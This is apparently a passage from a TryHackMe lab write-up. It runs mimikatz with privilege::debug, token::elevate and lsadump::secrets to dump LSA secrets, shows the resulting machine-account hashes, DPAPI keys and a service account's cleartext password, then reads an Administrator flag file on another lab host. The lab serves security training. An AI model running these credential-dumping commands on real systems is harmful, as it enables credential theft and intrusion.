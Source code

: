 ```
C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

Inside of mimikatz, we need to do:

```
privilege::debug
token::elevate
lsadump::secrets
```

We will get this:

```
Domain : THMWRK1
SysKey : a1403e57976b472bce5f231922ca3942

Local name : THMWRK1 ( S-1-5-21-3226461851-763325627-4205969673 )
Domain name : ZA ( S-1-5-21-3885271727-2693558621-2658995185 )
Domain FQDN : za.tryhackme.loc

Policy subsystem is : 1.18
LSA Key(s) : 1, default {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27}
 [00] {cfcff4be-beab-7d93-cfa3-edb6a9a3bf27} 929bd1cdc726d31f5eea6fa5266a09521afd0be6309a08fd604c9a95c2af4463

Secret : $MACHINE.ACC
cur/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
 NTLM:4207d1b7e4b942da2371174b772fdf5e
 SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db
old/text: 0FFIKa"c[#L6T>=.s*ZW'Gz04FL&7,"VjxxhLeXqmI\%Q%c..g?=olZZlnTA#J@;*8+&?neR%>l_W!w&.oz@1MDJHs`&suI rmg,g GQsb%),mlWLo?6$kqP
 NTLM:4207d1b7e4b942da2371174b772fdf5e
 SHA1:c67c43d5a5d002f67371024ef1aa22db76ab44db

Secret : DefaultPassword
old/text: vagrant

Secret : DPAPI_SYSTEM
cur/hex : 01 00 00 00 b6 54 c4 83 d9 88 10 f6 ee ae fc b7 ed 2d a2 d6 47 11 3f 8f 4a 6d 7f 72 35 b8 a2 93 3d 5c 5e 3f 03 8d 79 49 90 e7 2e e0
 full: b654c483d98810f6eeaefcb7ed2da2d647113f8f4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
 m/u : b654c483d98810f6eeaefcb7ed2da2d647113f8f / 4a6d7f7235b8a2933d5c5e3f038d794990e72ee0
old/hex : 01 00 00 00 10 4d a3 82 e2 da 30 1f 33 d6 49 a4 c9 81 26 e5 25 59 bb 9f 8a 76 b1 5d 59 c6 87 c6 32 b7 02 0b c1 5b 24 f4 44 d0 74 31
 full: 104da382e2da301f33d649a4c98126e52559bb9f8a76b15d59c687c632b7020bc15b24f444d07431
 m/u : 104da382e2da301f33d649a4c98126e52559bb9f / 8a76b15d59c687c632b7020bc15b24f444d07431

Secret : NL$KM
cur/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99
 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58
old/hex : 10 bb 99 02 da 94 4a 26 cd ad 07 f3 62 64 53 5c a8 12 be e3 16 1f 8f 99 ae ab 97 37 c4 bc ee df 63 7c 2f 6d 07 c5 d9 5e 29 e7 ce ce 48 52 47 19 8a 03 99
 ff 97 ec 7f 49 a1 79 15 d9 a0 04 ac 58

Secret : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt